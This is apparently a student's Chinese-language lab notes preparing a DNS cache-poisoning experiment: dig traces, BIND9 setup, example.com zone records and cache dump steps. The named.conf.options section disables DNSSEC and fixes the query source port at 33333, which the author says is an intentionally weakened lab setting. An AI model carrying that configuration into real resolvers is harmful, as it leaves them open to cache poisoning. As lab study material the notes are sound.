## HOST 配置


## dig 工具

### dig 解析

> 一开始IPv4网络提前配置到了后续要求的网络（IPv4 地址192.168.187.130 子网掩码255.255.255.0），结果失败。
>
> ```
> dnsserver@server:~$ dig www.baidu.com
> 
> ; <<>> DiG 9.10.3-P4-Ubuntu <<>> www.baidu.com
> ;; global options: +cmd
> ;; Got answer:
> ;; ->>HEADER<<- opcode: QUERY, status: SERVFAIL, id: 39821
> ;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 0, ADDITIONAL: 1
> 
> ;; OPT PSEUDOSECTION:
> ; EDNS: version: 0, flags:; udp: 4096
> ;; QUESTION SECTION:
> ;www.baidu.com.			IN	A
> 
> ;; Query time: 880 msec
> ;; SERVER: 127.0.1.1#53(127.0.1.1)
> ;; WHEN: Thu Nov 12 07:04:55 PST 2026
> ;; MSG SIZE  rcvd: 42
> ```
>

设置为IPv4直连后反而是正常的。


### root 根服务器

`+trace` 可查看逐级解析，追踪从 DNS 根开始的逐级查询。
$$
\text{根域名服务器}\\\implies

\text{.com 顶级域服务器}\\\implies

\text{bilibili.com 权威服务器}\\\implies

\text{得到最终解析结果}
$$

```
dnsserver@server:~$ dig +trace www.bilibili.com

; <<>> DiG 9.10.3-P4-Ubuntu <<>> +trace www.bilibili.com
;; global options: +cmd
.			5	IN	NS	e.root-servers.net.
.			5	IN	NS	a.root-servers.net.
.			5	IN	NS	b.root-servers.net.
.			5	IN	NS	f.root-servers.net.
.			5	IN	NS	i.root-servers.net.
.			5	IN	NS	h.root-servers.net.
.			5	IN	NS	m.root-servers.net.
.			5	IN	NS	c.root-servers.net.
.			5	IN	NS	j.root-servers.net.
.			5	IN	NS	g.root-servers.net.
.			5	IN	NS	d.root-servers.net.
.			5	IN	NS	l.root-servers.net.
.			5	IN	NS	k.root-servers.net.
.			5	IN	RRSIG	NS 8 0 518400 20261124200000 20261111190000 8763 . cjQwebQ8nHIc6NzUhyR5ln5dtivAcCu4z257Jb7Z/JS8zwIsjMcTnc4c Is+E4ce7akuVYaEgxS2Zy8e8RnGgM0f+TmBNcClSRj7xiAtjOoWyANZW h+nCEvVS1h3ph1UeuCGB0B9kfkOp3v3RHCGaK3nb3PN+rV2916/VvSZe iVSEDNMkK2Y13fPIB1z9wRWf4kf8xHrRXle3QqrUYgl1Jj7bCGMeeCRT 6am+hURZKj6g7SI1bxyXONEKGFLgyzigj2VRO5jNKVgb4rOvF0aKqjzd 8unIdPw45ZKNH6IMwXmusTPLl1EulOf6wtJIKvd69gSMEdWKg8Ns0au+ YOcoQg==
;; Received 1097 bytes from 127.0.1.1#53(127.0.1.1) in 18 ms

com.			172800	IN	NS	i.gtld-servers.net.
com.			172800	IN	NS	a.gtld-servers.net.
com.			172800	IN	NS	g.gtld-servers.net.
com.			172800	IN	NS	j.gtld-servers.net.
com.			172800	IN	NS	h.gtld-servers.net.
com.			172800	IN	NS	l.gtld-servers.net.
com.			172800	IN	NS	f.gtld-servers.net.
com.			172800	IN	NS	b.gtld-servers.net.
com.			172800	IN	NS	c.gtld-servers.net.
com.			172800	IN	NS	e.gtld-servers.net.
com.			172800	IN	NS	m.gtld-servers.net.
com.			172800	IN	NS	d.gtld-servers.net.
com.			172800	IN	NS	k.gtld-servers.net.
com.			86400	IN	DS	19718 13 2 8ACBB0CD28F41250A80A491389424D341522D946B0DA0C0291F2D3D7 71D7805A
com.			86400	IN	RRSIG	DS 8 1 86400 20261125050000 20261112040000 8763 . Y21HuPWT7W0hRN+xU4WZgDWjNBfV/kCdfnMZWZ/JXrM5DgdmkR+x9w6S wOGWp2LUOtoWeNO5m0+2IUdAow1I+EyWXyJczWmLw80jDm+9GqWeHXmQ UK3S/hEZUFI+9AEnm8OYuW0PtxIE2TJ1i06QWAYaRSPliwzUe/oeBH9N e3sgZCs/k7gZnnw9p48Uq8WYZEvwkKsLUexBHSLJoONrlAVpVTYCioTG 4YDv2VL9/4PZRQAJW7RJOadnO1CLeYPCQjrwfWQM37GF6uzJkcMUSb2z 854XhlfgVC3erBhoffCKVP+PwPRYduzBUhklMcucWF1vWvz+v5b+u+W3 UPg5Vw==
;; Received 1176 bytes from 202.12.27.33#53(m.root-servers.net) in 8 ms

bilibili.com.		172800	IN	NS	ns3.dnsv5.com.
bilibili.com.		172800	IN	NS	ns4.dnsv5.com.
CK0POJMG874LJREF7EFN8430QVIT8BSM.com. 900 IN NSEC3 1 1 0 - CK0Q35HRS4H76G6CHNB9414CJN6S5UPL NS SOA RRSIG DNSKEY NSEC3PARAM
CK0POJMG874LJREF7EFN8430QVIT8BSM.com. 900 IN RRSIG NSEC3 13 2 900 20261118002605 20261110231605 65344 com. ZlJH4zBTd8732a1sdMrM1t1uuJ5HV9bhZ2nkKH/fObF0lZ4F2Xq3/iVy jLN99usMe6ipC1s+h7vgkJN6UzsdYA==
34N8IUNMFDGUL13GCNB325CKVM924592.com. 900 IN NSEC3 1 1 0 - 34N8VOVER4CALDU6ILDJ57NE037S5FB1 NS DS RRSIG
34N8IUNMFDGUL13GCNB325CKVM924592.com. 900 IN RRSIG NSEC3 13 2 900 20261119031402 20261112020402 65344 com. ERSfmtMMGCl+c+k7FmsQ5qxcWE24RCXaebATyIQejXnDwUIK2pEklYT4 CYThe291Hd83m2K8ELutHfDmDwGiVQ==
;; Received 772 bytes from 192.31.80.30#53(d.gtld-servers.net) in 189 ms

www.bilibili.com.	300	IN	CNAME	a.w.bilicdn1.com.
;; Received 75 bytes from 101.227.168.52#53(ns3.dnsv5.com) in 68 ms
```

### .com 服务器

`NS` 是 域名服务器记录。

```
dnsserver@server:~$ dig NS com

; <<>> DiG 9.10.3-P4-Ubuntu <<>> NS com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 32211
;; flags: qr rd ra; QUERY: 1, ANSWER: 13, AUTHORITY: 0, ADDITIONAL: 12

;; QUESTION SECTION:
;com.				IN	NS

;; ANSWER SECTION:
com.			5	IN	NS	i.gtld-servers.net.
com.			5	IN	NS	m.gtld-servers.net.
com.			5	IN	NS	h.gtld-servers.net.
com.			5	IN	NS	j.gtld-servers.net.
com.			5	IN	NS	g.gtld-servers.net.
com.			5	IN	NS	b.gtld-servers.net.
com.			5	IN	NS	l.gtld-servers.net.
com.			5	IN	NS	e.gtld-servers.net.
com.			5	IN	NS	c.gtld-servers.net.
com.			5	IN	NS	k.gtld-servers.net.
com.			5	IN	NS	d.gtld-servers.net.
com.			5	IN	NS	f.gtld-servers.net.
com.			5	IN	NS	a.gtld-servers.net.

;; ADDITIONAL SECTION:
a.gtld-servers.net.	5	IN	A	192.5.6.30
a.gtld-servers.net.	5	IN	AAAA	2001:503:a83e::2:30
b.gtld-servers.net.	5	IN	A	192.33.14.30
b.gtld-servers.net.	5	IN	AAAA	2001:503:231d::2:30
c.gtld-servers.net.	5	IN	A	192.26.92.30
c.gtld-servers.net.	5	IN	AAAA	2001:503:83eb::30
d.gtld-servers.net.	5	IN	A	192.31.80.30
d.gtld-servers.net.	5	IN	AAAA	2001:500:856e::30
e.gtld-servers.net.	5	IN	A	192.12.94.30
e.gtld-servers.net.	5	IN	AAAA	2001:502:1ca1::30
f.gtld-servers.net.	5	IN	A	192.35.51.30
f.gtld-servers.net.	5	IN	AAAA	2001:503:d414::30

;; Query time: 58 msec
;; SERVER: 127.0.1.1#53(127.0.1.1)
;; WHEN: Thu Nov 12 07:19:10 PST 2026
;; MSG SIZE  rcvd: 509
```

### bilibili.com 服务器

查询对应域名的 NS 记录。

```
dnsserver@server:~$ dig NS bilibili.com

; <<>> DiG 9.10.3-P4-Ubuntu <<>> NS bilibili.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 10573
;; flags: qr rd ra; QUERY: 1, ANSWER: 2, AUTHORITY: 0, ADDITIONAL: 16

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; MBZ: 0005 , udp: 4096
;; QUESTION SECTION:
;bilibili.com.			IN	NS

;; ANSWER SECTION:
bilibili.com.		5	IN	NS	ns4.dnsv5.com.
bilibili.com.		5	IN	NS	ns3.dnsv5.com.

;; ADDITIONAL SECTION:
ns3.dnsv5.com.		5	IN	A	220.196.136.52
ns3.dnsv5.com.		5	IN	A	1.12.0.17
ns3.dnsv5.com.		5	IN	A	1.12.0.18
ns3.dnsv5.com.		5	IN	A	1.14.119.52
ns3.dnsv5.com.		5	IN	A	36.155.149.52
ns3.dnsv5.com.		5	IN	A	43.140.237.52
ns3.dnsv5.com.		5	IN	A	101.227.168.52
ns3.dnsv5.com.		5	IN	AAAA	2402:4e00:1730::f
ns4.dnsv5.com.		5	IN	A	43.140.78.52
ns4.dnsv5.com.		5	IN	A	49.7.107.152
ns4.dnsv5.com.		5	IN	A	117.135.128.152
ns4.dnsv5.com.		5	IN	A	1.12.0.16
ns4.dnsv5.com.		5	IN	A	1.12.0.19
ns4.dnsv5.com.		5	IN	A	1.14.119.54
ns4.dnsv5.com.		5	IN	AAAA	2402:4e00:1231::8

;; Query time: 10 msec
;; SERVER: 127.0.1.1#53(127.0.1.1)
;; WHEN: Thu Nov 12 07:19:10 PST 2026
;; MSG SIZE  rcvd: 347
```

### 服务器地址

`A` 是 IPv4 地址记录。查询B站服务器地址。

```
dnsserver@server:~$ dig www.bilibili.com

; <<>> DiG 9.10.3-P4-Ubuntu <<>> www.bilibili.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 42970
;; flags: qr rd ra; QUERY: 1, ANSWER: 5, AUTHORITY: 2, ADDITIONAL: 16

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; MBZ: 0005 , udp: 4096
;; QUESTION SECTION:
;www.bilibili.com.		IN	A

;; ANSWER SECTION:
www.bilibili.com.	5	IN	CNAME	a.w.bilicdn1.com.
a.w.bilicdn1.com.	5	IN	A	121.194.11.75
a.w.bilicdn1.com.	5	IN	A	121.194.11.73
a.w.bilicdn1.com.	5	IN	A	121.194.11.74
a.w.bilicdn1.com.	5	IN	A	121.194.11.72

;; AUTHORITY SECTION:
bilicdn1.com.		5	IN	NS	ns3.dnsv5.com.
bilicdn1.com.		5	IN	NS	ns4.dnsv5.com.

;; ADDITIONAL SECTION:
ns3.dnsv5.com.		5	IN	A	1.12.0.18
ns3.dnsv5.com.		5	IN	A	1.14.119.52
ns3.dnsv5.com.		5	IN	A	36.155.149.52
ns3.dnsv5.com.		5	IN	A	43.140.237.52
ns3.dnsv5.com.		5	IN	A	101.227.168.52
ns3.dnsv5.com.		5	IN	A	220.196.136.52
ns3.dnsv5.com.		5	IN	A	1.12.0.17
ns3.dnsv5.com.		5	IN	AAAA	2402:4e00:1730::f
ns4.dnsv5.com.		5	IN	A	1.14.119.54
ns4.dnsv5.com.		5	IN	A	43.140.78.52
ns4.dnsv5.com.		5	IN	A	49.7.107.152
ns4.dnsv5.com.		5	IN	A	117.135.128.152
ns4.dnsv5.com.		5	IN	A	1.12.0.16
ns4.dnsv5.com.		5	IN	A	1.12.0.19
ns4.dnsv5.com.		5	IN	AAAA	2402:4e00:1231::8

;; Query time: 38 msec
;; SERVER: 127.0.1.1#53(127.0.1.1)
;; WHEN: Thu Nov 12 07:19:12 PST 2026
;; MSG SIZE  rcvd: 442

```

## DNS 前置工作

### 启动BIND9

> 值得注意的是，有次开机时出现了下文报错
>
> ```
> dnsserver@server:~$ sudo apt-get install bind9
> [sudo] password for dnsserver: 
> E: Could not get lock /var/lib/dpkg/lock-frontend - open (11: Resource temporarily unavailable)
> E: Unable to acquire the dpkg frontend lock (/var/lib/dpkg/lock-frontend), is another process using it?
> ```
>
> 而在此之前仅仅开机并运行了 `ls -l /etc/bind/` 。
>
> 检查后发现确实有占用锁，但是当时忘记保存截图从而无从得知为何光板的 Ubuntu 刚开机会有这种情况。



### 配置文件

#### 设置 `named.conf.options`

> 值得注意的是，文档中给出了 vim 编辑的方法，然而对于 linux 小白来说 vim 并不易使用。
>
> 而如果直接点开（也就是用 **gedit** 编辑器）修改会发现无法保存，因为大多数情况本实验内碰的都是系统文件。
>
> 因此需要管理员权限 `sudo` 的 `gedit` 打开。
>
> ```
> sudo gedit named.conf.options
> ```
>
> ~~有点搞笑，刚写完这个就发现后面文档里面也提到了这一点~~


```
//要求注释
	//dnssec-validation auto;

	dump-file "/var/cache/bind/dump.db"; // 用于指定输出位置
	query-source port 33333;			// 指定发送请求包时使用的端口
	dnssec-enable no;					// 禁用安全机制
```

- `dump-file` 指定 DNS 缓存**转储文件**的位置。
  - BIND9 平时把缓存保存在内存等运行状态中，需要用 `rndc dumpdb` 主动生成一个可供检查的转储文件。
- `query-source port 33333` 指定这台 DNS 服务器向上游发出查询时使用的 **UDP 来源端口**。
  - 为了研究旧式 DNS 缓存投毒把端口固定为 `33333`，这样实验条件更容易分析。
  - 这是**降低安全性**的实验配置，一般的 DNS 服务器正常部署显然是会随机化来源端口的。
- `dnssec-enable no` 关闭 BIND9 的 DNSSEC 支持，并注释自动验证配置。

> GPT 表示：
>
> DNSSEC 可以通过密码学验证某些 DNS 数据的真实性，阻止攻击者仅凭伪造记录欺骗验证解析器。
>
> 不过，这里有两个细节：
>
> - `dnssec-enable` 是旧版配置选项，在现代 BIND9 中可能已经被删除。
> - 注释 `dnssec-validation auto` 与明确配置 `dnssec-validation no` 并不总是等价的。
>
> 因此，不能看到配置保存成功就认为 DNSSEC 一定被关闭，应以实际版本的配置检查和运行行为为准。


下面根据 [[计算机网络安全实验] DNS攻击实验](https://blog.csdn.net/LostUnravel/article/details/127819578) 补全了正向区域和反向区域。

#### 正向区域

| 记录             | 类型 | 目标值                             |
| ---------------- | ---- | ---------------------------------- |
| example.com      | SOA  | ns.example.com / admin.example.com |
| example.com      | NS   | ns.example.com                     |
| example.com      | MX   | 10 mail.example.com                |
| www.example.com  | A    | 192.168.0.101                      |
| mail.example.com | A    | 192.168.0.102                      |
| ns.example.com   | A    | 192.168.0.10                       |
| *.example.com    | A    | 192.168.0.100                      |

**SOA** “**区域管理信息**”……是什么？其实就是说明 **DNS 区域**的一系列**基本信息**

```dns
example.com. IN SOA ns.example.com. admin.example.com. (
    2008111001
    8H
    2H
    4W
    1D
)
```

- `ns.example.com.`：这个区域的**主（首选）名称服务器**（该 DNS 区域由谁管，只有**一台**）
- `admin.example.com.`：**管理员联系方式**邮箱（DNS 里用第一个点代替 `@`）
- `2008111001`：区域序列号
- `8H`：刷新间隔，从服务器多久检查一次更新
- `2H`：重试间隔，同步失败后多久再试
- `4W`：过期时间，从服务器联系不上主服务器多久后认为数据过期
- `1D`：负面缓存 TTL 相关值，表示查询失败的结果能缓存多久

---

**NS** 表示 此区域的**权威名称服务器**（可以有**很多**，只表示“他们是权威的”）

> 举例：
>
> ```dns
> example.com. IN SOA ns1.example.com. admin.example.com. (
>     2024010101 8H 2H 4W 1D
> )
> example.com. IN NS ns1.example.com.
> example.com. IN NS ns2.example.com.
> ns1.example.com. IN A 192.168.0.10
> ns2.example.com. IN A 192.168.0.11
> ```
>
> 这里：
>
> - **SOA MNAME = `ns1.example.com`**：表示 `ns1` 是主服务器/首选源，常用于区域传输、通知、动态更新等协议场景。
> - **NS = `ns1` 和 `ns2`**：表示 `example.com` 有**两个权威名称服务器**，对外都说“我负责这个区域”。

---

MX 表示 此域名的**邮件收件服务器**。这是非必须的，同时~~也不是要给DNS发邮件的意思~~

```dns
example.com. IN MX 10 mail1.example.com.
example.com. IN MX 20 mail2.example.com.
```

此处数字表示优先级，会先尝试数字小的邮件地址。

---

A 则很简单，就表示**域名对应的 IPv4 地址**。

```dns
*.example.com. IN A 192.168.0.100
```

\*是**通配符**记录，使没有单独定义的子域名也能得到预设地址。

#### 反向区域

| IP 尾段 | PTR 记录         |
| ------- | ---------------- |
| 101     | www.example.com  |
| 102     | mail.example.com |
| 10      | ns.example.com   |

- **正向区域**：域名 → IP 地址， `www.example.com → 192.168.0.101`
- **反向区域**：IP 地址 → 域名， `192.168.0.101 → www.example.com`

具体地，DNS 的反向查询树是按 IP 地址字节**倒序**组织的。

> GPT：
>
> 需要注意：创建反向区域数据文件，并不会自动让 BIND9 对外提供反向解析。必须在配置文件中声明该区域。
>
> 而且原文后面的实验把反向区域声明注释掉了，所以在该状态下，即使文件存在，反向解析也可能无法使用。

#### `named.conf`



加入 `example.com` 区域声明：

- `zone "example.com"`：声明管理的区域
- `type master`：此 DNS 服务器保存该区域的主数据
- `file`：指定记录从哪个文件读取

#### 配置结果



在 **131 攻击端** 进行查询，可以看到 `dig @192.168.187.130 www.example.com A` ，查询成功、确实发送到了130。

### DNS 缓存

#### 清理 DNS 缓存

```
sudo rndc flush 				# 清除 DNS 缓存
sudo systemctl restart bind9 	# 重启 DNS 服务
systemctl status bind9 			# 检查服务运行状态
```

`rndc` 是 BIND9 的远程管理工具，可以让管理员向正在运行的 DNS 服务器发送管理命令。



> 这里刷新步骤出问题是因为**主机名和 hosts 里的名字不匹配**。
>
> 主机名是 **`server`** ， `/etc/hosts` 里只有 **`ubuntu`** 。
>
> 修改后可以正常刷新~

#### 配置攻击端



修改后客户端会把 DNS 请求交给 130 的服务器。

#### 检查 DNS 缓存



```
sudo rndc dumpdb
```

此命令将服务器当前的缓存等数据写入转储文件。

显然此刻缓存里面还没有微博，因为还没有进行访问。

#### 访问微博 查看缓存

在 131 机器访问 www.weibo.com 之后：

1. 浏览器发起访问需要得到网站的 IP 地址，由（客户端的 DNS 已经指向的） 130 处理相应的 DNS 请求。
2. 对于不由自己直接管理的域名，BIND9 需要解析上游服务器获取答案。
3. 得到结果后，服务器可以将这些记录**缓存一定时间**。

回到 130 机器，重新保存缓存文件然后查询：

